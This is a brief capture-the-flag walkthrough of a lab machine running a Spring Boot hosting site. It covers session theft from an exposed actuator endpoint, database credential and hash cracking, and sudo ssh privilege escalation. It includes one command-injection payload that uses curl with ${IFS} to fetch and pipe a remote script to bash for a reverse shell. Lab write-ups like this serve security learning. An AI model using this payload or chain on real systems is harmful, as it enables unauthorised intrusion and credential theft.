



**ip of the machine :- 10.129.2.185**

machine is on!!!

Got two open ports as usual...

Did an aggressive scan and found the version of the services running on the ports...

adding ip in /etc/hosts file..

It's like a hosting website or somethin'

Found some directories, let's explore them...

Found a login page in /admin and same in /login and /logout but admin:admin didn't work so, let's find out another way to get in.

So went to /error and it gave a Whitelabel error...

So a whitelabel error page is in spring boot application, so does that mean it is running spring boot on back end??

So used ffuf to find common spring boot directories and files and got some...

So directory actuator was exposed and it's further files, so searched for what is actuator so it revealed that how spring boot application are actually working or simply operation info. which is interesting.

Got a lot in actuator to explore and sessions look pretty interesting for possible session cookies...

Got a session cookie in /actuator/sessions...

So added the session cookie and now we can see there is no login page coming so let's go for /admin...

Got in /admin now...

we can reach the machine by using curl command in the input fields.....

made a rev.sh script and curled it on the web interface..
test;curl${IFS}http://10.10.14.42:9999/rev.sh|bash;
So we curled and got rev shell in the server and executed it using bash.
${IFS} for no inverted comma arguments...

got rev shell...

Found a file in which we reverse shelld...

So extracted the jar file using unzip command and then started digging in the extracted stuff and found a file with credentials to postgres sql database. So this machine is running postgres sql in the back end as the database. Let's try to login in the database then...

Logged in into postgres sql database server...

Got a list of databases in the database server.

connected to database postgres now...

Connected to cozyhosing database and it showed two tables...

Got two hashes.... Let's try to crack them...

Cracked password of the admin...

there is only one user josh in the system. So maybe josh is the admin...

was write, logged in as user "josh"...

Got our first flag...

use can only run /usr/bin/ssh as root...

So went to GTFObins and found the solution of how to escalate privileges...

Escalated privileges and as well as got our last flag...